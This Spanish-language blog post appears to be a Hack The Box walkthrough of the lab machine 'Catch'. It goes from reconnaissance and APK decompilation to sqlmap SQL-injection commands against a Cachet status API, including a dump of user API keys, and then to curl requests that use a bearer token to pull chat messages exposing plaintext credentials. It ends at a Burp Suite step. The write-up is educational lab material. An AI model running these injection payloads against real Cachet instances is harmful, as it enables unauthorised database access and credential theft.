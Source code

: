 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Catch              |
| Os                     | Linux              |
| Difficulty             | Medium             |
| Points                 | 30                 |
| IP                     | 10.10.11.150       |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Catch/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

![Nmap 1](/assets/images/Catch/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

![Nmap 2](/assets/images/Catch/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos.

![Nmap 3](/assets/images/Catch/nmap3.png)

Despues veremos mas sobre los servicios que corren en el puerto 80, 3000, 5000 y 8000 con whatweb.

![whatweb](/assets/images/Catch/whatweb.png)


![Landing page](/assets/images/Catch/landing_page.png)


Despues de que seguimos navegando por el servicio web, nos encontramos con un .apk, el cual lo descompilaremos con <a href="https://github.com/pxb1988/dex2jar.git">d2j-dex2jar.sh</a>. Una vez clonado y correr ./gradlew distZip , navegaremos a dex2jar/dex-tools/build/distributions/dex-tools-2.2-SNAPSHOT. El comando para ejecutar la aplicacion es:

```s
sh d2j-dex2jar.sh -f /home/rebick/Documents/HtB/Catch/name.apk
```

Buscando en el codigo fuente, encontramos un link dirigido a `https://status.catch.htb`, asi que agregaremos este dominio a nuestro `/etc/hosts`

![Function that call subdomain.](/assets/images/Catch/pointing_subdomain.png)

Ahora analizaremos el dominio con <a href="https://github.com/MobSF/Mobile-Security-Framework-MobSF">MobSF.</a>Con esta herramienta encontraremos tokens de mucha importancia y podremos explotarlos despues. Por ahora, solo nos enfocaremos en `https://status.catch.htb`. Primero hay que iniciar el servicio y visitarlo en el navegador.

```s
#Para iniciar la herramienta
sh ./run.sh
```

Una vez ejecutada la herramienta, abrimos el navegador y ponemos `http://localhost:8000/`, el dashboard nos pedira soltar el .apk ahi mismo e iniciara el analisis. Despues de que concluya, nos vamos a la parte de Analysis

![Secrets](/assets/images/Catch/secrets.png)

En este dominio se encontro que es usado el frame Cachet, la otra evidencia indica que hay vulnerabilidades de SQLI, y vulnerabilidades de ejecusion de comandos.
Usaremos sqlmap para detectar estas vulnerabilidades.

```s
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+"
```

![SQL Payload](/assets/images/Catch/SQLpayload.png)

Vamos por la webshell

```s
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
```

Primero Obtenemos el json de Rooms.

```json
[{"id":"61b86b28d984e2451036eb17",
"slug":"status",
"name":"Status",
"description":"Cachet Updates and Maintenance",
"lastActive":"2021-12-14T10:34:20.749Z",
"created":"2021-12-14T10:00:08.384Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]},
{"id":"61b8708efe190b466d476bfb",
"slug":"android_dev",
"name":"Android Development",
"description":"Android App Updates, Issues & More",
"lastActive":"2021-12-14T10:24:21.145Z",
"created":"2021-12-14T10:23:10.474Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]},
{"id":"61b86b3fd984e2451036eb18",
"slug":"employees",
"name":"Employees",
"description":"New Joinees, Org updates",
"lastActive":"2021-12-14T10:18:04.710Z",
"created":"2021-12-14T10:00:31.043Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]}]
```

Y ahora descargamos

```s
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages
```

En este response, obtuvimos la contrasena de john.

```json
[{"id":"61b8732cfe190b466d476c02",
"text":"ah sure!",
"posted":"2021-12-14T10:34:20.749Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b8731ffe190b466d476c01",
"text":"You should actually include this task to your list as well as a part of quarterly audit","posted":"2021-12-14T10:34:07.449Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b872b9fe190b466d476c00",
"text":"Also make sure we've our systems, applications and databases up-to-date.","posted":"2021-12-14T10:32:25.514Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87282fe190b466d476bff",
"text":"Excellent! ",
"posted":"2021-12-14T10:31:30.403Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87277fe190b466d476bfe",
"text":"Why not. We've this in our todo list for next quarter",
"posted":"2021-12-14T10:31:19.094Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87241fe190b466d476bfd",
"text":"@john is it possible to add SSL to our status domain to make sure everything is secure ? ",
"posted":"2021-12-14T10:30:25.108Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b8702dfe190b466d476bfa",
"text":"Here are the credentials `john :  E}V!mywu_69T4C}W`",
"posted":"2021-12-14T10:21:33.859Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87010fe190b466d476bf9",
"text":"Sure one sec.",
"posted":"2021-12-14T10:21:04.635Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b86fb1fe190b466d476bf8",
"text":"Can you create an account for me ? ",
"posted":"2021-12-14T10:19:29.677Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b86f4dfe190b466d476bf6",
"text":"Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me. ",
"posted":"2021-12-14T10:17:49.761Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"}] 
```

Encontramos la cuenta y contrasena `john : E}V!mywu_69T4C}W`. El apiKey de john fue encontrada por medio de SQLInjection.
Lo siguiente por hacer es 

```s
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C api_key,username --dump
```

Ahora podemos usar burpsuite para insertar el response de la siguiente forma:


![Burpsuite](/assets/images/Catch/burpsuite_john_response.png)